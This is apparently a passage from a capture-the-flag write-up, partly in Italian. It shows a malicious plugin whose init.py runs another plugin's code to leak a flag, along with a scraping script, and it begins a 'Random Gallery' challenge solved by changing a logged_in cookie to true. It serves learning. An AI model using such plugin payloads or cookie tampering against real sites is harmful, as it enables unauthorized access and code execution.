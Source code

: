 ```python
soup = bs4.BeautifulSoup(s.get(URL).text, "html.parser")
img = soup.find("img", alt="My exploit")

widget = img["src"].split("/")[2]

print("Widget uid:", widget)
print(s.get(URL + 'widget/' + widget).text)
```

#### Plugin

**`init.py`**

```python
import subprocess

result = subprocess.run(['python', '../flag-uid-goes-here/init.py'], capture_output=True, text=True)
with open('index.html', 'w') as f:
    f.write(result.stdout)
```

**`plugin_manifest.json`**

```json
{
  "name": "My exploit",
  "version": "1.0",
  "author": "hecker",
  "icon": "icon.png"
}
```

### Random Gallery

#### Riepilogo della challenge

Random Gallery è una web challenge basata su un semplice difetto di autenticazione.
Visitando il sito si vede una pagina di login, ma non c’è alcuna opzione di registrazione—quindi sembra impossibile autenticarsi.

Ispezionando i cookie del browser, si nota un cookie `logged_in` impostato a `false`.
Se cambi manualmente questo valore in `true` e vai alla index (`/`), ottieni accesso al sito.

Una volta dentro, esplora un po’ e ti imbatterai in un QR code:
